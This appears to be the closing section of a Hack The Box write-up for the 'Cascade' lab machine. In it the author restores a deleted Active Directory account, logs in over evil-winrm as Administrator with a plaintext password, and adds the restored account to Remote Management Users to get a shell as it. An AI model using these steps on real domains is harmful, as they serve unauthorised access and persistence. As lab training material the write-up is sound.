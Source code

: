 # Extra
Trying to log in as TempAdmin does not do something as this users is deleted. 
I restore the object with the command `Get-ADObject -Filter {SamAccountName -eq 'TempAdmin'} -IncludeDeletedObjects | Restore-ADObject` as user administrator and then try to login but I can't do it. By viewing the in which Groups `TempAdmin` the user is not inside `Remote Management user`. By adding the user at that group I can login also as `TempAdmin`
```
kali@kali:~/Desktop/Boxes/Cascade/smbshare/Data/vncpasswd.py$ evil-winrm -i 10.10.10.182 -u Administrator -p baCT3r1aN00dles

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> net user TempAdmin
User name                    TempAdmin
Full Name                    TempAdmin
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            27/01/2020 04:23:08
Password expires             Never
Password changeable          27/01/2020 04:23:08
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.

*Evil-WinRM* PS C:\Users\Administrator\Documents> Add-LocalGroupMember -Group "Remote Management Users" -Member "TempAdmin"
*Evil-WinRM* PS C:\Users\Administrator\Documents> exit
kali@kali:~/Desktop/Boxes/Cascade/smbshare/Data/vncpasswd.py$ evil-winrm -i 10.10.10.182 -u TempAdmin -p baCT3r1aN00dles
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\TempAdmin\Documents> whoami
cascade\tempadmin
```

Here are some useful links while doing this box.
[Active-directory-recycle-bin](https://www.petri.com/using-active-directory-recycle-bin)
